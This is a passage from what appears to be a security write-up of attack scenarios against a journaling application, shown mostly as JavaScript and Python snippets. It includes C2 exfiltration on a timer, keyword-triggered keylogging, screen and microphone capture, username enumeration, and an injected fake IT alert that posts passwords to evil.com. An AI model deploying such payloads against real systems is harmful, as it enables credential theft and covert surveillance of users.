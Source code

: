 ```javascript
    c2.send(JSON.stringify(newData));
}, 3600000); // Every hour
">
```

### Step 2: Long-term Surveillance
- Monitors all journal entries for keywords
- Maps organizational structure
- Identifies key personnel and projects
- Waits for high-value information

### Step 3: Strategic Data Collection
```javascript
// When specific keywords detected:
if (content.includes('classified') || content.includes('operation')) {
    // Immediate exfiltration
    priorityExfil(entry);
    
    // Activate additional collection
    activateKeylogger();
    activateScreenCapture();
    activateMicrophoneRecording();
}
```

**Total Impact**:
- Long-term undetected surveillance
- Classified information leaked
- National security compromised
- Foreign intelligence advantage

---

## 🎣 Attack Scenario 5: The Social Engineer

**Target**: High-profile executive

### Step 1: Reconnaissance via Timing Attack
```python
# Find executive's username format
for format in ['jsmith', 'john.smith', 'smithj', 'john_smith']:
    if username_exists(format):
        print(f"Username format: {format}")
```

### Step 2: Phishing with XSS
```javascript
// Create fake but convincing IT notification
<div style="border: 2px solid red; padding: 20px; background: #fff;">
    <h2>⚠️ Security Alert from IT Department</h2>
    <p>Unusual activity detected on your account.</p>
    <p>Please verify your identity:</p>
    <form action="https://evil.com/phish" method="post">
        <input type="password" name="password" placeholder="Current Password" required>
        <input type="text" name="phone" placeholder="Phone (for 2FA)" required>
        <button type="submit">Verify Account</button>
    </form>
</div>
```
